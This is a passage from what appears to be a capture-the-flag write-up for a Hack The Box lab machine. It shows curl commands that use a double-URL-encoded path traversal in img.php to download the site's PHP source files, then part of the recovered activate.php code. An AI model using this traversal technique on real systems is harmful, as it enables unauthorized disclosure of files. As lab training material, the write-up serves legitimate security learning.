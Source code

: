 After generating the activation code, I needed to apply it somewhere to get the newly created account activated. Then I recalled that the directory discovery returned some other paths. I had to exfiltrate all the discovered files.
```shell
curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../activate.php)) -o activate.php    # get activate file

curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../register.php)) -o register.php    # get register file

curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../login.php)) -o login.php    # get login file

curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../index.php)) -o index.php    # get index file

curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../user.php)) -o user.php    # get user file

curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../comment.php)) -o comment.php    # get comment file

curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../update_user.php)) -o update_user.php    # get update user file

curl -k https://broscience.htb/includes/img.php?path=$(urlencode $(urlencode ../logout.php)) -o logout.php    # get logout file

```
[activate.php](#activate.php)
```php
<?php
session_start();

// Check if user is logged in already
if (isset($_SESSION['id'])) {
    header('Location: /index.php');
}

if (isset($_GET['code'])) {
    // Check if code is formatted correctly (regex)
    if (preg_match('/^[A-z0-9]{32}$/', $_GET['code'])) {
        // Check for code in database
        include_once 'includes/db_connect.php';

        $res = pg_prepare($db_conn, "check_code_query", 'SELECT id, is_activated::int FROM users WHERE activation_code=$1');
        $res = pg_execute($db_conn, "check_code_query", array($_GET['code']));

        if (pg_num_rows($res) == 1) {
            // Check if account already activated
            $row = pg_fetch_row($res);
            if (!(bool)$row[1]) {
                // Activate account
                $res = pg_prepare($db_conn, "activate_account_query", 'UPDATE users SET is_activated=TRUE WHERE id=$1');
                $res = pg_execute($db_conn, "activate_account_query", array($row[0]));
                
                $alert = "Account activated!";
                $alert_type = "success";
            } else {
                $alert = 'Account already activated.';
            }
        } else {
```